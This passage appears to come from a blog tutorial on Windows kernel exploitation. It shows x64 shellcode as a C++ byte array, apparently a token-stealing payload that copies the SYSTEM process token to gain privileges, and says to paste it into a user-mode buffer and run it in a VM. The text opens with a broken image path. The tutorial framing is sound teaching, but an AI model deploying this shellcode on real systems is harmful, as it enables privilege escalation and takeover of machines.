```nasm
end
```
Here is our binary:
![](imgs/blog/1WindowsKernelShellcode/20250219182801.png)


Once we got the opcode we have to paste it in our UM buffer.
```cpp
...
char charShellcode[] = {
	0x90, 0x65, 0x4C, 0x8B, 0x0C, 0x25, 0x88, 0x01, 0x00, 0x00, 
	0x4D, 0x8B, 0x89, 0x20, 0x02, 0x00, 0x00, 0x4D, 0x8B, 0x81, 
	0x40, 0x05, 0x00, 0x00, 0x4D, 0x8B, 0x89, 0x48, 0x04, 0x00, 
	0x00, 0x49, 0x81, 0xE9, 0x48, 0x04, 0x00, 0x00, 0x4D, 0x8B, 
	0x91, 0x40, 0x04, 0x00, 0x00, 0x4D, 0x39, 0xC2, 0x75, 0xE6, 
	0x4C, 0x89, 0xC8, 0x48, 0x05, 0xB8, 0x04, 0x00, 0x00, 0x4D, 
	0x8B, 0x89, 0x48, 0x04, 0x00, 0x00, 0x49, 0x81, 0xE9, 0x48, 
	0x04, 0x00, 0x00, 0x4D, 0x8B, 0x91, 0x40, 0x04, 0x00, 0x00, 
	0x49, 0x83, 0xFA, 0x04, 0x75, 0xE5, 0x4D, 0x8B, 0x89, 0xB8, 
	0x04, 0x00, 0x00, 0x4C, 0x89, 0x08, 0xC3, 0x90, 0x90, 0x90
};
...
```
Now we can execute our program in the VM:
![](imgs/blog/1WindowsKernelShellcode/20250219182511.png)
